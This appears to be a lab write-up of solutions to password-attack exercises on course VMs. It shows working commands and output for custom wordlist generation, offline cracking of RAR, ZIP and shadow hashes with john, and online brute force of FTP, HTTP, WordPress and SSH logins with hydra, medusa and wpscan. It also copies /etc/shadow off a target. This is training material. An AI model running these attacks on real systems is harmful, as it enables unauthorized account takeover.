 
###### 19.4.6.2
You found this encrypted file _flag.rar_ after gaining access to the manager of MegaCorp One's _/challenge_ folder on the VM #1 while conducting a pentest on the company.  
You previously identified a couple of his other passwords including _nanomedicines234_ and _Cyberisation649_ where _nanomedicines_ and _Cyberisation_ both are products of MegaCorp (words) that can be found on their website [www.megacorpone.com.](http://www.megacorpone.com.)  
You also know the password requirement is at least _12 characters with 3 digits_.  
Use this information to generate a custom wordlist to crack this zip file and get the flag.

```bash
cewl www.megacorpone.com -m 12 -w cewl-megacorp.txt  
scp -P 2222 192.168.141.10:/challenge/flag.rar .  
rar2john flag.rar > flagr.hash


sudo vim /etc/john/john.conf  
	(add above [List.Rules:Wordlist])  
  
	[List.Rules:myrules]  
	#Append 3 digits to wordlist  
	$[0-9]$[0-9]$[0-9]


john --wordlist=megacorp flagr.hash  
	Using default input encoding: UTF-8  
	Loaded 1 password hash (RAR5 [PBKDF2-SHA256 256/256 AVX2 8x])  
	Cost 1 (iteration count) is 32768 for all loaded hashes  
	Will run 2 OpenMP threads  
	Press 'q' or Ctrl-C to abort, almost any other key for status  
	->Regeneration298  (flag.rar)


sudo unrar e -pRegeneration298 flag.rar    
	UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal  
	Extracting from flag.rar  
	Extracting  flag.txt                 OK   
	All OK  
  
cat flag.txt
```



###### 19.4.6.3
(Similar to above, only flag.zip &....)  
You previously identified several of her other passwords including _bella9221!!_ and _charlie2323##_ where _rosie_ and _bailey_ are the names of two of her pets.  
Looking at her social media, you find out she has a third pet named _buddy_.  
Use this information to generate a custom wordlist to open this file and get the flag.

```bash
zip2john flag.zip > flagz.hash  
  
cat >> pets.txt  
bella  
charlie  
buddy  
rosie  
bailey  
  
crunch 6 6 -t %%%%^^ -o char.txt  
  
/usr/share/hashcat-utils/combinator.bin pets.txt chars.txt > petchar.txt  
  
john --wordlist=petchar.txt flagz.hash  
...  
Loaded 1 password hash (PKZIP [32/64])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
->buddy2033==      (flag.zip/flag.txt)     
  
unzip -P buddy2033== flag.zip
```



###### 19.4.6.4
After enumerating the target VM #3, you will find an FTP server running that is available remotely.  
Use a password attack technique to log into this FTP server with the user offsec while keeping the number of workers not above 3.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.52  
	no results  
  
medusa -h 192.168.141.52 -u offsec -P /usr/share/wordlists/rockyou.txt -M ftp -t 3  
	ACCOUNT FOUND: [ftp] Host: 192.168.141.52 User: offsec Password: buster [SUCCESS]  
  
  
ftp 192.168.141.52  
	ls  
	get flag.txt  
	bye  
  
cat flag.txt
```



###### 19.4.6.5
Use a password attack technique against the target VM #4 to log into the website with the _offsec_ user.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt -f  192.168.149.52  http-get  
...  
	[80][http-get] host: 192.168.149.52   login: offsec   password: eduardo  
  
OR  
  
medusa -h 192.168.141.52 -u offsec -P /usr/share/wordlists/rockyou.txt -M http  
...  
ACCOUNT FOUND: [http] Host: 192.168.141.52 User: offsec Password: eduardo [SUCCESS]
```



###### 19.4.6.6
You have found this list of possible employee username on target VM #5 inside the _users.txt_ file on the web server's root path.  
Use this list and a password attack technique to log into this website.

```bash
curl 192.168.149.10/users.txt > users  
  
wpscan --url http://192.168.149.52 -U users -P /usr/share/wordlists/rockyou.txt  
	[+] Performing password attack on Wp Login against 43 user/s  
[SUCCESS] - jim / claudia                                                                                                                     
^Cying ben / charles Time: 00:09:43 <                                                            > (14604 / 616809074)  0.00%  ETA: ??:??:??  
	[!] Valid Combinations Found:  
	 | Username: jim, Password: claudia
```



###### 19.4.6.7
Use a password attack technique to log into the target VM #6 via SSH with the user _offsec_.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.149.52:2222  
...  
	2222][ssh] host: 192.168.149.52   login: offsec   password: ginger  
  
OR  
  
medusa -M ssh -u offsec -P /usr/share/wordlists/rockyou.txt -h 192.168.149.52 -n 2222  
...  
ACCOUNT FOUND: [ssh] Host: 192.168.149.52 User: offsec Password: ginger [SUCCESS]
```
	SSH on exercises is usually port 2222


###### 19.4.6.8
The _shadow man_ admin messed up the configurations on the target VM #7 server and gave you access to see something he shouldn't have.  
Can you use this access to read the flag?

```bash
scp -P 2222 student@192.168.149.52:/etc/passwd ./passwd  
scp -P 2222 student@192.168.149.52:/etc/shadow ./shadow  
scp -P 2222 student@192.168.149.52:passwords.txt ./pw.lst  
  
unshadow passwd shadow > combined  
  
john combined  
	...  
	Proceeding with wordlist:/usr/share/john/password.lst  
	lorena           (shadow-man)       
	Proceeding with incremental:ASCII  
	lab              (student)  
  
OR  
  
john --wordlist=pw.lst combined  
  
ssh shadow-man@192.168.149.52 -p 2222
```